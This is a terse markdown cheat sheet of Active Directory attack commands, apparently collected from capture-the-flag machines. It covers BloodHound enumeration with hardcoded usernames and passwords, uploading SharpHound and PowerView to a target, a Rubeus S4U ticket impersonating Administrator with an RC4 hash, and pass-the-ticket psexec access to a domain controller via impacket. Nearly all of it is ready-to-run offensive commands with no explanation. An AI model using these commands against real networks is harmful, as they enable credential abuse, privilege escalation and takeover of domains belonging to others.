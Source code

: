 ### Blood Hound
```
sudo neo4j start
./BloodHound --disable-gpu --disable-software-rasterizer --in-process-gpu --disable-gpu-compositing
```
```
sudo neo4j console
./BloodHound --disable-gpu --disable-software-rasterizer --in-process-gpu --disable-gpu-compositing
```
```
python3 /opt/BloodHound.py/bloodhound.py -d pinocure.com -u olivia -p 'ichliebedich' -ns 10.10.11.42 -k --collectionmethod All
```
```
/opt/BloodHound.py/bloodhound.py -d pinocure.com -dc 'dc01.pinocure.com' -u 'judith.mader' -p 'judith09' -c all -ns 10.10.11.41
```
```
bloodhound-python -d pinocure.com -u Ted.Graves -p Mr.Teddy -ns 10.10.10.248 -c All
bloodhound-python -c DCOnly -u low -p 'Password123!' -d pinocure.com -dc dc01.pinocure.com
bloodhound-python -u svc_loanmgr -p Moneymakestheworldgoround! -d pinocure.com -ns 10.10.10.175 -c All
```


### Sharp Hound
```
cd C:\Users\support\Documents
upload SharpHound.exe
./SharpHound.exe
download 20250616084901_BloodHound.zip
```

### Power View
```
upload PowerView.ps1
. ./PowerView.ps1
```

### Rubeus
```
.\Rubeus.exe hash /password:Password123 /user:FAKE-COMP01$ /domain:pinocure.com
```
```
# keberous ticket(admin)
./Rubeus.exe s4u /user:FAKE-COMP01$ /rc4:58A478135A93AC3BF058A5EA0E8FDB71 /impersonateuser:Administrator /msdsspn:cifs/dc.pinocure.com /domain:pinocure.com /ptt
```

### impacket
```
sudo ./ticketConverter.py ticket.kirbi ticket.ccache
```
```
KRB5CCNAME=ticket.ccache ./psexec.py pinocure.com/administrator@dc.pinocure.com -k -no-pass
```
